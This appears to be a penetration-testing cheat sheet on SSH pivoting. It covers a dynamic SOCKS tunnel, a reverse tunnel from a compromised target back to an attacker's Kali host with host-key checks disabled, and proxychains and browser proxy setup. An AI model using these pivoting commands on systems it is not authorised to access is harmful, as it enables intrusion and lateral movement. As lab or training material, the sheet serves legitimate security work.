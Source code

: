 # SSH Tunnel

NOTE: needs valid SSH creds on box to pivot from.

## Tunnel configuration

### Outgoing

```bash
ssh user@IP -D 6900
# this sets up a tunnel between localhost:TUNNEL-PORT and target
# any requests to localhost:TUNNEL-PORT is routed via target
```

### Incoming

#### authorized_keys file

```bash
from="IP",command="echo 'This account can only be used for Port Forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty <SSH-PUBLIC-key>
```

#### Command

```bash
# for allowing a connecting to your port from outside (incoming)
ssh -N -f -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -R PORT -i <id_rsa> KALI-USER@KALI-IP

# -N: not running commands
# -f: go to background
# UserKnownHostsFile=/dev/null & StrictHostKeyChecking=no will not ask kali password; not safe to enter password on target.
```

## Proxychains4 config

### /etc/proxychains4.conf

```bash
# add line for socks4 proxy 
socks4 127.0.0.1 6900

# add line for socks5 proxy
socks5 127.0.0.1 6900
```

Now, run any command using `$ proxychains4 [command]`

## proxychains4 for browser

Set up a foxyproxy configuration for browser:

1. Title: proxychains
2. Proxy Type: SOCKS4
3. Proxy IP: localhost
4. Port: 6900

